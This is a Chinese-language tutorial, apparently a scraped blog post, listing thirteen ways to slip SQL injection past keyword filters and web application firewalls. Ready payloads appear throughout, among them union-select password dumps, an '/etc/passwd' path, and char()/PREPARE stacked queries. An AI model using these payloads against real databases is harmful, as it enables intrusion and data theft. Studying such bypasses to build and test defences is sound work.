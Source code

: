 SQL注入原理：Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台 Sql 服务器 上解析执行进行的攻击，它目前黑客对数据库进行攻击的最常用手段之一。
下面分享几种常见的SQL注入常见绕过方法：以下以 index.php?id=1 为例绕过
1，大小写绕过：

例如当后台对select进行了过滤时，利用php对大小写敏感，但mysql中对大小写不敏感的特性，常见的replace(‘select’,’’)取代函数,则payload：

index.php?id=-1 Union SeleCt 1,2,3
1
2,双写绕过：

原理同大小写类似，若后台用if语句对传入的参数进行检测是否传入slelect时，可以payload：

index.php?id=-1 and ununionion selselectect 1,2,3
1
传入mysql中语句则变成了index.php?id=-1 union select 1,2,3达到绕过

3，编码：

常见编码方式
1，URL 编码
2，Unicode 编码
3，十六进制编码
4，其他后端会解析的编码
例如对admin URL编码后 %61%64%6D%69%6E，因此payload:

index.php?id=-1 union select 1,2,password from users where username=%61%64%6D%69%6E
1
4.关键字替换或等价函数替换

hex()、bin() --> ascii()
sleep() -->benchmark()
concat_ws() --> group_concat()
mid()、substr() --> substring()
@@user --> user()
对于and,or的绕过其实还可以尝试一下&&,||
注意：若对or进行了过滤时，则相应的order,information中的or也被过滤了

5.注释符（内联注释符）：

在mysql中/*admin*/是注释符，就像C和js中//代表注释的意思，也可以充当空白符。因为 /**/在sql语句中可以解析成功。事实上许多WAF都考虑到/**/可以作为空白分，但是waf检测 “/*.*/”很消耗性能，工程师会折中，可能在检测中间引入一些特殊字符，例如：/\w+*/。或者，WAF可能只中间检查n个字符“/*.{,n}*/”,直至达到检测的最大值，因此payload：

index.php?id=-1 union/**/select 1,2,3
index.php?id=-1 union/*aaaaaaaaaaaaaaa(1万个a)aaaaaaaaaaaaaaaaa*/
1
2
还有用法为 /!50727select 1/，即当版本号小于等于50727时，执行select 1

6.垃圾字符：

一般为了考虑性能等原因，程序员在设置WAF绕过规则时设置了过滤的数据包长度，如果数据包太大或太长，就会直接放弃匹配过滤后面的数据，从而略过这个数据包。因此我们可以通过传入大量的参数值，超到WAF绕过的临界值，从而绕过

index.php?id=-1aaaaaa(10万个a)aaaa union select 1,2,3
1
7. 参数污染：

简单来说，存在多个同名参数的情况下，可能存在逻辑层和 WAF 层对参数的取值不同，即可能逻辑层使用的第一个参数，而 WAF 层使用的第二个参数，而这时我们只需要第二个参数正常，通过WAF层，然后在第一个参数中插入注入语句，这样组合起来就可以绕过 WAF，payload：

index.php?name=first&name=last
1
而由于部分中间件的不同，部分检测规则存在差异，下面是一些服务器检测规则：
在这里插入图片描述

8.keep-alive(持久连接)

在HTTP请求头部中有Connection这个字段，用来判断建立的 TCP连接会根据此字段的值来判断是否断开，当发送的内容太大，超过一个 http 包容量，需要分多次发送时，值会变成keep-alive，Keep-Alive功能使客户端到服务器端的连接持续有效，当出现对服务器的后继请求时，Keep-Alive功能避免了建立或者重新建立连接。即本次发起的 http 请求所建立的 tcp 连接不断开，直到所发送内容结束Connection为close为止。
因此我们可以使用burpsuite抓包，手动将connection值设置为 keep-alive，然后在 http 请求报文中构造多个请求，将我们的注入代码隐藏在第 n 个请求中，从而绕过 waf。

9.请求方式绕过：

一些 WAF 对于get请求和post请求的处理机制不一样，可能对 POST 请求稍加松懈，因此给GET请求变成POST请求有可能绕过拦截。
一些 WAF 检测到POST请求后，就不会对GET携带的参数进行过滤检测，因此导致被绕过。
一般方法便是采用burpsuite抓包，更改提交方式，如下
在这里插入图片描述

10.静态资源：

特定的静态资源后缀请求，常见的静态文件(.js .jpg .swf .css等等)，类似白名单机制,waf为了提高检测效率，会直接放弃检测这样一些静态文件名后缀的请求。payload:

index.php/1.js?id=1
1
备注: Aspx/php只识别到前面的.aspx/.php后面基本不识别

11.url白名单:

为了防止误拦，部分WAF内置默认的白名单列表，如admin/manager/system等管理后台。只要url中存在白名单的字符串，就作为白名单不进行检测。常见的url构造姿势:
index.php/admin.php?id=1
index.php?a=/manage/&b=…/etc/passwd
index.php/…/…/…/ manage/…/sql.asp?id=2
WAF对传入的参数进行比较，只要uri中存在/manage/，/admin/ 就作为白名单直接放行，payload:

index.php?a=/manage/&id=1 union select 1,2,3
1
12.绕过空格：

%20、%09、%0a、%0b、%0c、%0d、%a0、%00、/**/、 /!select/ 、()、–%0a（可以1-256都跑一遍）
其中%09需要php环境，%0a为\n， /!select/为mysql独有。常见用法为/!50727select 1/，即当版本号小于等于50727时，执行select 1

13.prepare预处理：

一般形式：
set @a=0x73656c656374202a2066726f6d2074657374;
prepare s from @a;
execute s;

利用 char() 函数将select的ASCII码转换为select字符串，接着利用concat()函数进行拼接得到select查询语句，从而绕过过滤。或者直接用concat()函数拼接select来绕过。
char(115,101,108,101,99,116)<----->‘select’

index.php?id=-1';SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE hacker from @sqli;EXECUTE hacker;#
1
以上便是我总结的一些SQL注入绕过的一些技巧和方法，可以根据需要采用最好的方法绕过。而对于WAF的更新与强大，手工注入具有一定的难度，一般我们采取人工+自写脚本+sqlmap工具配合使用的方法绕。
